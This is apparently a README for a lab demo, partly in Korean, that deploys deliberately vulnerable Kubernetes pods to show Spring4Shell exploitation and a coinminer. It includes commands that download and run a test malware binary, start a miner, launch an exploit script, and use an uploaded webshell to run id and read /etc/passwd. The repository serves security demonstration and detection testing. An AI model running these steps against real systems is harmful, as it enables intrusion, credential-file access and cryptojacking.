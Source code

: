 # Spring4Shell and Coinminer PoC
## This is for testing and demo purposes

#### STEP 0. EKS와 같은 K8S 클러스터, 클러스터에 접속가능한 VM 준비
#### STEP 1. Git 설치후 본 Repo 를 clone 혹은 .zip으로 다운로드 
#### STEP 2. Dockerfile을 docker build . -t spring4shell 로 빌드하여 Registry에 올리거나, 로컬 경로 메모

![WebPage](screenshots/dockerfilebuild.png?raw=true)

#### STEP 3. kubectl apply -f xdr_for_cloud_demo.yaml 의 이미지 경로 확인 및 수정(주석 참조)
#### STEP 4. kubectl get all 로 pod 및 service 확인

아래 YAML file에 kubectl apply:
```sh
$ kubectl apply -f xdr_for_cloud_demo.yaml
pod/jie-spring4shell-pod created
pod/vulmachine-pod created
service/jie-sprig4shell created
```

2개의 pod와 1개의 서비스가 성공적으로 생성되었다면 아래 커맨드를 통해 STATUS를 점검합니다.
```sh
$ kubectl get all
```
![WebPage](screenshots/getAll.png?raw=true)

Coinminer pod 및 Spring4Shell pod - 취약한 pod 가 2개 생성됩니다.

## STEP 5. Use cases

### Coinminer 공격
#### Get the malware sample from Wildfire and execute it
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/sample
--2023-04-24 03:19:40--  http://wildfire.paloaltonetworks.com/publicapi/test/elf
Resolving wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)... 35.247.145.234
Connecting to wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)|35.247.145.234|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8608 (8.4K) [application/octet-stream]
Saving to: '/tmp/sample'

/tmp/sample                                100%[======================================================================================>]   8.41K  --.-KB/s    in 0s      

2023-04-24 03:19:40 (56.4 MB/s) - '/tmp/sample' saved [8608/8608]

root@vulmachine-pod:/# chmod +x /tmp/sample 
root@vulmachine-pod:/# ./tmp/sample
```

#### Execute the coinminer
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# ./tmp/coinminer
```

![WebPage](screenshots/Coinminer.png?raw=true)


### Exploit the Spring4Shell service
`kubectl get all` 명령의 출력을 확인하여 배포된 서비스의 EXTERNAL-IP를 찾고, 해당 IP 주소를 웹 브라우저에 입력하여 접속합니다.

![WebPage](screenshots/checkService.png?raw=true)

위 화면을 확인하였으면 exploit.py 로 공격을 실행합니다.
```sh
$ python3 exploit.py --url "http://"your service external ip":8080/helloworld/greeting"
```
![WebPage](screenshots/exploitpy?raw=true)

위 과정이 완료되면 webshell이 서버에 업로드되며, 아래 명령어를 사용하여 id 또는 /etc/password 파일을 확인할 수 있습니다.
```sh
$ http://"your service external ip":8080/webshell.jsp?cmd=id
$ http://"your service external ip":8080/webshell.jsp?cmd=cat%20/etc/passwd
$ http://"your service external ip":8080/webshell.jsp?cmd=whoami
```

## Credit
[@reznok](https://github.com/reznok/Spring4Shell-POC) for helping on building a spring4shell container image.
